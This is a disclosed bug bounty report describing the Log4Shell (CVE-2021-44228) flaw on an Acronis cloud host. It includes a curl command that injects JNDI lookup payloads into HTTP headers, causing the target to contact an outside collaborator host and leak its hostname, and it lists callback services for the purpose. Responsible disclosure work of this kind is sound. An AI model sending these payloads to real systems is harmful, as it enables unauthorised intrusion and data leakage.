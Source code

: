 # [CVE-2021-44228] Arbitrary Code Execution on ng01-cloud.acronis.com

## Report Details
- **Report ID**: 1459714
- **URL**: https://hackerone.com/reports/1459714
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2022-01-25T07:33:15.950Z
- **Disclosed**: 2024-08-28T09:03:58.673Z

## Reporter
- **Username**: mikkocarreon
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: acronis

## Vulnerability Information
### Description
The application is using a vulnerable version of Log4j which allows arbitrary remote command execution. The vulnerability is also known as Log4Shell and is assigned [CVE-2021-44228](https://www.randori.com/blog/cve-2021-44228/).

### Reproduction Steps
For easier reproduction, please use Burp Collaborator and issue the following curl command with your collaborator instance URL;
```bash
curl --http1.1 --silent --output /dev/null \
--header 'User-agent: ${jndi:ldap://${hostName}.<COLLABORATOR_URL>/a}' \
--header 'X-Forwarded-For: ${jndi:ldap://${hostName}.<COLLABORATOR_URL>/a}' \
--header 'Referer: ${jndi:ldap://${hostName}.<COLLABORATOR_URL>/a}' \
https://ng01-cloud.acronis.com
```
You should receive a request to your Collaborator Client with your server's hostname as the prefix. That should suffice to prove that the host is vulnerable. The hostname I received was `ng01-cloud-elk-ls-vm01`.

Note that it may take some time to receive the pingbacks. In case Burp Collaborator doesn't work, I'd advise using your own. Some alternatives are;
1. dig.pm
2. app.interactsh.com
3. dnslog.cn
4. pingb.in
5. requestbin.net
6. canarytokens.com

### Reference
https://www.lunasec.io/docs/blog/log4j-zero-day/

## Impact

Arbitrary remote code execution

## Attachments
No attachments
